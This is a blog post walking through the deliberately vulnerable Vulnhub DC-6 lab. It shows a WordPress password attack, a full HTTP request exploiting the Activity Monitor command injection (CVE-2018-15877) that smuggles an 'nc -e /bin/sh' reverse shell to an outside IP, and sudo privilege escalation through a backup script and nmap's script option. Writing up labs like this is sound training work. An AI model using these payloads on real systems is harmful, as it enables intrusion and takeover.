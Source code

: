 ```yaml
---
layout: post
title:  "Vulnhub - dc6"
date:   2020-08-29 00:00:00 +1000
category: hacking
---
```


## Introduction
*DC-6 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.  
This isn't an overly difficult challenge so should be great for beginners.  
The ultimate goal of this challenge is to get root and to read the one and only flag.*

There is also a hint:

*OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.    
**cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt**  
That should save you a few years. ;-)*

Spoiler alert: the reason for this hint is that there is a password attack involved.

[File](https://www.vulnhub.com/entry/dc-6,315/). This file is only 619Mb, so that's nice.

## Nmap
We've got two ports only: SSH (22) and HTTP on 80. We have to add **wordy** to our */etc/hosts*.

## Wordpress
The **wordy** business probably gave it away, but if not it's immediately obvious that this is a Wordpress site. We can run wpscan to find our users, and then do some gobusting. However, this doesn't turn up anything interesting and neither does larger or different wordlists. I tried fuzzing for subdomains; nothing. Maybe it's time to look at that hint.

## XMLRPC
The site has xmlrpc enabled so it's a password attack to move forward, after creating our password list as the hint suggested. The list of users came from our initial wpscan run.

``
root@kali:/opt/vulnhub/dc6# wpscan --usernames users.txt -P ./passwords.txt --url http://wordy
``

This gets us a password for user **mark** and we can log in to the web interface. 

## Wordpress
There isn't much on Mark's page, but he does have the Activity Monitor. Some googling turns up [CVE-2018-15877](https://www.exploit-db.com/exploits/45274). This leads us to this Burp Suite payload:

{% highlight html %}
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: wordy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://wordy/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
Content-Type: multipart/form-data; boundary=---------------------------703056344735340322105459110
Content-Length: 322
Connection: close
Cookie: wordpress_14014489b649086e51cacb340bafe656=mark%7C1598871282%7C0hjUhcDMJXdd5OsrliCchWBpMuPyxc1pItAV7y5Z60Y%7Ce99f0681cd956b3de9bc0281b1163b8ce364740cb474c711236ba195e01e1cb6; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_14014489b649086e51cacb340bafe656=mark%7C1598871282%7C0hjUhcDMJXdd5OsrliCchWBpMuPyxc1pItAV7y5Z60Y%7Cf3869ccce7d4d4a7fa2576d971de1f5075230a4966084ee8ae2370a30d415001; wp-settings-time-3=1598699269
Upgrade-Insecure-Requests: 1

-----------------------------703056344735340322105459110
Content-Disposition: form-data; name="ip"

google.fr|nc -e /bin/sh 192.168.1.77 1234;
-----------------------------703056344735340322105459110
Content-Disposition: form-data; name="lookup"

Lookup
-----------------------------703056344735340322105459110--
{% endhighlight %}

And that is how we get our reverse shell. I did have to try a few different payloads before I found one that worked. Also I notice Google are now putting scary warnings on the [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) site. 

## www-data
We're in as www-data but with some snooping around we find a file in Mark's home directory providing a password for Graham, so we can su to Graham. Once we've done that we find we this:

{% highlight shell %}
graham@dc-6:/home/jens$ sudo -l
sudo -l
Matching Defaults entries for graham on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User graham may run the following commands on dc-6:
    (jens) NOPASSWD: /home/jens/backups.sh
{% endhighlight %}

So that's interesting but all the script does is this: 

{% highlight shell %}
#!/bin/bash
tar -czf backups.tar.gz /var/www/html
{% endhighlight %}

Initially I thought this was one of those tar wildcard things, but I couldn't get it to work. But sometimes we can overthink things; in fact we just need to append a line to the script:

{% highlight shell %}
graham@dc-6:/home/jens$ echo '/bin/bash' >> backups.sh
{% endhighlight %}

Now when we run it we get a shell as **jens**. What can jens do? Let's see:

{% highlight shell %}
jens@dc-6:~$ sudo -l
sudo -l
Matching Defaults entries for jens on dc-6:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jens may run the following commands on dc-6:
    (root) NOPASSWD: /usr/bin/nmap
jens@dc-6:~$ TF=$(mktemp)
TF=$(mktemp)
jens@dc-6:~$ echo 'os.execute("/bin/sh")' > $TF
echo 'os.execute("/bin/sh")' > $TF
jens@dc-6:~$ sudo nmap --script=$TF
sudo nmap --script=$TF

Starting Nmap 7.40 ( https://nmap.org ) at 2020-08-29 22:19 AEST
NSE: Warning: Loading '/tmp/tmp.oqKcB9NgCc' -- the recommended file extension is '.nse'.
# whoami
root
{% endhighlight %}

Thanks once again to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) for the privesc.
